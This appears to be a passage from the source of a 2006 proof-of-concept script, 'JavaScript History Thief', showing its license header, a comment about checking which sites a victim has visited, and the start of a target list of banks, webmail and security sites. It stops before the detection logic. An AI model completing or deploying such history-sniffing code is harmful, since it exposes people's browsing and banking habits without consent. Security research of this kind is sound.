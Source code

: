 
```
<script>
<!--
/*
NAME: JavaScript History Thief
AUTHOR: Jeremiah Grossman

BSD LICENSE:
Copyright (c) 2006, WhiteHat Security, Inc.
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions are met:
* Redistributions of source code must retain the above copyright notice,
  this list of conditions and the following disclaimer.
* Redistributions in binary form must reproduce the above copyright notice,
  this list of conditions and the following disclaimer in the documentation
  and/or other materials provided with the distribution.
* Neither the name of the WhiteHat Security nor the names of its contributors
  may be used to endorse or promote products derived from this software
  without specific prior written permission.

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS"
AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE
IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE
ARE DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT OWNER OR CONTRIBUTORS BE
LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR
CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF
SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS
INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN
CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE)
ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF
THE POSSIBILITY OF SUCH DAMAGE.
*/


/* A short list of websites to loop through checking to see if the victim has been there.
Without noticable performance overhead, testing couple of a couple thousand URL's is
possible within a few seconds. */
var websites = [
 "http://ha.ckers.org/blog/",
 "http://login.yahoo.com/",
 "http://mail.google.com/",
 "http://mail.yahoo.com/",
 "http://my.yahoo.com/",
 "http://sla.ckers.org/forum/",
 "http://slashdot.org/",
 "http://www.amazon.com/",
 "http://www.aol.com/",
 "http://www.apple.com/",
 "http://www.bankofamerica.com/",
 "http://www.bankone.com/",
 "http://www.blackhat.com/",
 "http://www.blogger.com/",
 "http://www.bofa.com/",
 "http://www.capitalone.com/",
 "http://www.cgisecurity.com/",
 "http://www.chase.com/",
 "http://www.citibank.com/",
 "http://www.cnn.com/",
 "http://www.comerica.com/",
 "http://www.e-gold.com/",
 "http://www.ebay.com/",
```